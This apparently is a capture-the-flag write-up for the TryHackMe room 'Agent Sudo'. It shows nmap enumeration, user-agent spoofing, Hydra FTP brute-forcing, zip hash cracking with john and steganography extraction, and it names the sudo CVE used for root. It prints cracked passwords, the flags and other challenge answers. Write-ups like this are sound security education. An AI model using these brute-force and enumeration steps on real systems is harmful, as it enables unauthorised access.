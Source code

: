 # Agent Sudo

You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth. 

[Agent Sudo](https://tryhackme.com/room/agentsudoctf)

## Topic's

* Network Enumeration
* Web Header Manipulation
* Brute Forcing (FTP)
* Brute Forcing (Zip)
* Steganography
* Cryptography
  * Base64
* OSINT
* CVE-2019-14287 - Sudo < 1.8.28

## Author note

Welcome to another THM exclusive CTF room. Your task is simple, capture the flags just like the other CTF room. Have Fun!

If you are stuck inside the black hole, post on the forum or ask in the TryHackMe discord.

1. Deploy the machine

`No answer needed`

## Enumerate

Enumerate the machine and get all the important information

1. How many open ports?

```
kali@kali:~/CTFs/tryhackme/Agent Sudo$ sudo nmap -A -Pn -sC -sV -O 10.10.34.31
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-04 13:28 CEST
Nmap scan report for 10.10.34.31
Host is up (0.053s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/4%OT=21%CT=1%CU=35221%PV=Y%DS=2%DC=T%G=Y%TM=5F79B1F
OS:E%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10C%TI=Z%CI=I%II=I%TS=A)SEQ
OS:(SP=105%GCD=1%ISR=10C%TI=Z%CI=I%TS=A)SEQ(SP=105%GCD=1%ISR=10C%TI=Z%II=I%
OS:TS=A)OPS(O1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5
OS:=M508ST11NW6%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=
OS:68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%
OS:A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0
OS:%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S
OS:=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R
OS:=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N
OS:%T=40%CD=S)

Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 554/tcp)
HOP RTT      ADDRESS
1   36.49 ms 10.8.0.1
2   36.67 ms 10.10.34.31

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.71 seconds
```

`3`

2. How you redirect yourself to a secret page?

* [http://10.10.34.31/](http://10.10.34.31/)

```
Dear agents,

Use your own codename as user-agent to access the site.

From,
Agent R
```

`user-agent`

1. What is the agent name?

```
kali@kali:~/CTFs/tryhackme/Agent Sudo$ curl -A "C" -L 10.10.34.31
Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R
```

`chris`

## Hash cracking and brute-force

Done enumerate the machine? Time to brute your way out.

1. FTP password

```
kali@kali:~/CTFs/tryhackme/Agent Sudo$ hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.34.31 ftp
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-04 13:36:32
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.34.31:21/
[STATUS] 156.00 tries/min, 156 tries in 00:01h, 14344243 to do in 1532:31h, 16 active
[21][ftp] host: 10.10.34.31   login: chris   password: crystal
```

2. Zip file password

```
kali@kali:~/CTFs/tryhackme/Agent Sudo$ binwalk -e cutie.png 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22
```

```
kali@kali:~/CTFs/tryhackme/Agent Sudo$ zip2john _cutie.png.extracted/8702.zip > zip.hash
ver 81.9 _cutie.png.extracted/8702.zip/To_agentR.txt is not encrypted, or stored with non-handled compression type
kali@kali:~/CTFs/tryhackme/Agent Sudo$ john zip.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 256/256 AVX2 8x])
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Warning: Only 7 candidates buffered for the current salt, minimum 16 needed for performance.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
alien            (8702.zip/To_agentR.txt)
1g 0:00:00:01 DONE 2/3 (2020-10-04 13:42) 0.6993g/s 37134p/s 37134c/s 37134C/s 123456..Peter
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

3. steg password

```
kali@kali:~/CTFs/tryhackme/Agent Sudo$ echo -n 'QXJlYTUx' | base64 -d
Area51
```

4. Who is the other agent (in full name)?

`james`

5. SSH password

```
kali@kali:~/CTFs/tryhackme/Agent Sudo$ cat message.txt 
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

`hackerrules!`

## Capture the user flag

You know the drill.

1. What is the user flag?

```
james@agent-sudo:~$ cat user_flag.txt 
b03d975e8c92a7c04146cfa7a5a313c7
```

2. What is the incident of the photo called?

```
kali@kali:~/CTFs/tryhackme/Agent Sudo$ scp james@10.10.34.31:Alien_autospy.jpg ./
james@10.10.34.31's password: 
Alien_autospy.jpg                                            100%   41KB 358.6KB/s   00:00    
kali@kali:~/CTFs/tryhackme/Agent Sudo$
```

`roswell alien autopsy`

## Privilege escalation

Enough with the extraordinary stuff? Time to get real.

1. CVE number for the escalation (Format: CVE-xxxx-xxxx)

`CVE-2019-14287`

2. What is the root flag?

```
root@agent-sudo:/root# cat root.txt 
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
```

`b53a02f55b57d4439e3341834d70c062`

3. (Bonus) Who is Agent R?

`DesKel`
